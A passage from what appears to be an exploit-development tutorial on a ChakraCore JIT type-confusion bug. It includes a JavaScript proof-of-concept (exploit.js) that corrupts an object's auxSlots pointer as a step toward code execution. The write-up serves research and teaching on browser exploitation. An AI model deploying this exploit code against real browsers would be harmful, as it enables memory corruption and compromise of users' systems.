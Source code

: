 The above is only a _half truth_, as we can use some "hacks" to actually end up controlling this `auxSlots` pointer with something interesting, actually with a "chain" of interesting items, to force ChakraCore to do something nefarious - which will eventually lead us to code execution.

Let's update our proof-of-concept, which we will save as `exploit.js`, with the following JavaScript:

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);		// Instead of supplying 0x1234, we are supplying our obj
}

main();
```

Our `exploit.js` is _slightly_ different than our original proof-of-concept. When the type confusion is exploited, we now are supplying `obj` instead of a value of `0x1234`. In not so many words, the `auxSlots` pointer of our `o` object, previously overwritten with `0x1234` in part one, will now be overwritten with the address of our `obj` object. Here is where this gets interesting.

Recall that any object that isn't NaN-boxed is considered a pointer. Since `obj` is a dynamic object, it is represented in memory as such:

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion2.png" alt="">

